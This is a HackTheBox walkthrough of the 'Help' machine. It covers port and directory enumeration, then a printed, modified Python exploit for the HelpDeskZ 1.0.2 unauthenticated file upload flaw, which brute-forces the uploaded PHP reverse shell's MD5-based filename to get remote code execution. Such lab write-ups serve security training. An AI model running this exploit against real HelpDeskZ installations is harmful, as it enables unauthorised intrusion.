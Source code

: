 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/addb842d-c4bf-4aed-b681-0ffc74ab64f0)

https://app.hackthebox.com/machines/Help

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I began with the quick rustscan & observed 3 open port from the scan, i.e. 22, 80, 3000.

```bash
sudo rustscan -a 10.10.10.121 -- -sC -sV -vv -oN help_nmap
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/63f363fd-7d91-4d9d-bbc9-8fed5c1e10a1)

```Rust
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZY4jlvWqpdi8bJPUnSkjWmz92KRwr2G6xCttorHM8Rq2eCEAe1ALqpgU44L3potYUZvaJuEIsBVUSPlsKv+ds8nS7Mva9e9ztlad/fzBlyBpkiYxty+peoIzn4lUNSadPLtYH6khzN2PwEJYtM/b6BLlAAY5mDsSF0Cz3wsPbnu87fNdd7WO0PKsqRtHpokjkJ22uYJoDSAM06D7uBuegMK/sWTVtrsDakb1Tb6H8+D0y6ZQoE7XyHSqD0OABV3ON39GzLBOnob4Gq8aegKBMa3hT/Xx9Iac6t5neiIABnG4UP03gm207oGIFHvlElGUR809Q9qCJ0nZsup4bNqa/
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHINVMyTivG0LmhaVZxiIESQuWxvN2jt87kYiuPY2jyaPBD4DEt8e/1kN/4GMWj1b3FE7e8nxCL4PF/lR9XjEis=
|   256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxDPln3rCQj04xFAKyecXJaANrW3MBZJmbhtL4SuDYX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    syn-ack ttl 63 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the scan results I observed that:

- On port 22 SSH is running, which is default.
- On port 80 HTTP server is running with the domain: "help.htb", which I added to my host config file.
- Port 3000 also hosted a HTTP server with "Node.js Express framework".

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Fuzzing:

After fininshing the port scan I browsed through the domain "http://help.htb" & found it's just an default Apache server page.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f0c31e9e-9df0-4219-91de-36cb918a90d9)

Moved onto the port 3000 & observed just a note: "Hi Shiv, To get access please find the credentials with given query"

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/828494b0-b3e3-4fa2-946c-791597e9d63f)

Once browsing through the web pages I perform sub-directory enumeration on "help.htb" & found 2 new directories:

```bash
gobuster dir -u http://help.htb/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o help_web -x txt,php,congif,aspx -e -b 404,403 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/76b815b2-595b-43f1-98b7-84d8b91f44d7)

The javascript end point is blocked for me but I was able to browse through "help.htb/support" & found a "HelpDeskZ" application running.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/92905cb7-05ae-488c-8668-d466e9c9e402)

I checked for "HelpDeskZ" related exploit in searchsploit & got 2 results in which one of the exploit is related to "Arbitrary file upload for version 1.0.2":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cf470d0e-7213-41f9-83f0-8c933df4d9be)

But I didn't able to determine yet that which version of HelpDeskZ is currently running, so I searched for HelpDeskZ GitHub repo & simultaneously I started sub-directory enumeration as well.
While searching on Github I found this [repo](https://github.com/alitalaghat/HelpDeskZ-1.0), which contains multiple directories:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e3023354-426a-45f3-88f2-a7ade9d45558)

Gobuster scan showed me the scans which is matching with the Github directories as well:

```bash
gobuster dir -u http://help.htb/support/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -e -b 404,403 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5e5eca4d-a4c3-407e-91b3-0074be4a6d80)

This makes me confirm that the HelpDeskZ service is running on version 1.0.2 as the other versions isn't having the similar directories. 

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

After confirming the version running on the target box I downloaded the python exploit from the searchsploit & as per the exploit memtioned:

```
The software in the default configuration allows upload for .php-Files ( !! ). I think the developers thought it was no risk, because the filenames get obfuscated when they are uploaded. However, there is a weakness in the rename function of the uploaded file

controllers httpsgithub.comevolutionscriptHelpDeskZ-1.0tree006662bb856e126a38f2bb76df44a2e4e3d37350controllerssubmit_ticket_controller.php - Line 141
$filename = md5($_FILES['attachment']['name'].time())...$ext;

So by guessing the time the file was uploaded, we can get RCE.
```
By following the exploit I submitted a ticket on the forum with a PHP reverse shell file & executed the python script. But even after attempting multiple time I wasn't able to execute my shell:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/452628ea-1dd8-4e57-9c13-01b44f854eb7)

### Exploit code review & changes:

Moving further I checked the source code of the application & checked for the upload file location. I found that the application is uploading the files towards '/ticket' directory.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e65d1588-1fbc-43c2-9740-f357f62f86a7)

So, I made some changes in the code, removed the user input argument part, added the file location & file name manually. Here is the final code after my edit:

```python
import hashlib
import time
import sys
import requests
import datetime

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

''' #commented this part to stop taking user argument
if len(sys.argv) < 3:
    print "Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)
'''

helpdeskzBaseUrl = 'http://help.htb/support/uploads/tickets/'
fileName = 'better_rev.php' #This is the pentest-monkey PHP reverse shell script, listening on 1337


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print 'found!'
        print url
        sys.exit(0)

print 'Sorry, I did not find anything'
```

After making the neccessary changes I executed the code again & started my netcat listener & finally received the shell as "help". Also, got the user flag in the home directory of the "help" user as well. (Pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/867ba655-85fb-4d5f-a3ac-6d6a6007ed59)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/db85ec0b-1446-4923-8ed5-42f780f9ef78)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cf4d8efe-2e68-4fe8-bd97-568d7e3e5c24)


